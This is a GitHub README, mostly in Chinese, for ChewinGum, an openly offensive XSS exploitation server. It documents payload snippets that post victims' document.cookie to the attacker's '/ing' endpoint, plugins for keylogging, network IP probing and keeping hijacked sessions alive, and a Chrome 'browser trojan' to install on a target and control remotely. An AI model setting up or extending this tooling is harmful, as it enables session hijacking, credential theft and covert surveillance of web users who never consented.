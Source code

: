 # ChewinGum [beta][0.2991][1140512]

Name
----
***ChewinGum - individual XSS Server***

Startup
-------
    python ./config.py install [ salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [Pure](http://purecss.io/)

  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* Gum.js            - [xss.js](http://zone.wooyun.org/content/2113)
* get_info.js       - [BeEF](http://beefproject.com/)
* wec_cssbug.html   - [CSS3事件的消息回调BUG](http://www.web-tinker.com/article/20339.html)
* get_networkip.js  - [Network IP Address via ipcalf.com](http://net.ipcalf.com/)
* tool_keylogger.js - [XSS keylogger](http://wiremask.eu/xss-keylogger/)

Helptext
--------

**1.Login**

采用filekey验证, 上传filekey或输入URL便可登录.

**2.Server**

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64ens(request.headers.get('Referer')),
    	'ctime':b64ens(ctime())
	}
	browserinfo = {
    	'cookie':b64ens(request.forms.cookie)
	}

**3.Server code keyword**

*ifstatus*  
对变量ifstatus赋值, 会触发对应status.  
如:

	ifstatus = 404

*returns*  
对变量returns赋值，会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

*gum.backinfo*  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

**4.Project name and Object name**

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

**5.Plugins**

可以这样导入server扩展,

	with open('./static/serv/get_info.py') as files: exec files.read()

也可以这样

    from static.serv.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/brows/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

**6.Set code**

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64ens(request.forms.infoname)

多次接收browser info可以像这样,

    info_cookie = b64ens(request.forms.cookie)
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = sessionid.get(referer)

>	不推荐使用多次接收，默认已关闭。

**7.Easy example**

使用基本探针:

server:

    with open('./static/serv/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/brows/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

**8.Console**

javascript文件在

    ./static/brows/onexsshell.js

>    尚在测试阶段。

**9.Browser trojan**

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段

**10.Plugins header specification**

    Author[Reference] - Date
        Name - Dependencies
                - Synopsis
            Example
                and
            Dependencies Plus

>   好吧我知道不会有人帮我写插件的...

Demo
----
![](http://quininer.github.io/image/xsshell_1.png)
![](http://quininer.github.io/image/xsshell_2.png)

Developers
----------
*   [quininer](mailto:quininer@live.com)([@quininers](https://twitter.com/quininers))
